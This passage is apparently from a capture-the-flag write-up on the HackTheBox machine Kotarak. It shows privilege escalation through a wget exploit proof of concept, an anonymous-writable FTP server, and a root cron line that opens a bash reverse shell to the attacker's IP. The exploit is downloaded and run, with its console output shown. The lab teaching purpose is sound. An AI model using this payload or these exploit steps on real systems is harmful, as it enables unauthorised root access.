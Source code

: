 
And start a Python FTP server:

    
    
    atanas@kotarak-dmz:/tmp/.0xdf$ authbind python -m pyftpdlib -p21 -w
    /usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
      RuntimeWarning)
    [I 2021-05-15 13:32:46] >>> starting FTP server on 0.0.0.0:21, pid=26421 <<<
    [I 2021-05-15 13:32:46] concurrency model: async
    [I 2021-05-15 13:32:46] masquerade (NAT) address: None
    [I 2021-05-15 13:32:46] passive ports: None
    

I’ll save a copy of the Python POC locally and make a few edits. It’s got
`go_GET` and a `do_POST` methods to handle incoming requests. It assumed the
first request will be a GET, and will redirect that to get the `.wgetrc`. Then
the next request will be a POST if that worked, and that’s where it returns
the `cron` file. Those functions are fine. There’s some configuration at the
bottom that needs updating:

    
    
    HTTP_LISTEN_IP = '10.0.3.1' 
    HTTP_LISTEN_PORT = 80
    FTP_HOST = '10.10.10.55' 
    FTP_PORT = 21
    
    ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' \n"
    

The HTTP listen needs to be on the IP that the container is connecting to.

Now the `cron` will result in a reverse shell. With a Python webserver in my
VM, I’ll grab it with `wget`:

    
    
    atanas@kotarak-dmz:/tmp/.0xdf$ wget 10.10.14.15/wget_exploit.py
    --2021-05-15 13:38:07--  http://10.10.14.15/wget_exploit.py
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2616 (2.6K) [text/x-python]
    Saving to: ‘wget_exploit.py’
    
    wget_exploit.py     100%[===================>]   2.55K  --.-KB/s    in 0.001s  
    
    2021-05-15 13:38:07 (2.50 MB/s) - ‘wget_exploit.py’ saved [2616/2616]
    

Now run it with `authbind`, and it checks that the FTP server is good, and
then waits:

    
    
    atanas@kotarak-dmz:/tmp/.0xdf$ authbind python wget_exploit.py 
    Ready? Is your FTP server running?
    FTP found open on 10.10.10.55:21. Let's go then
    
    Serving wget exploit on port 80...
    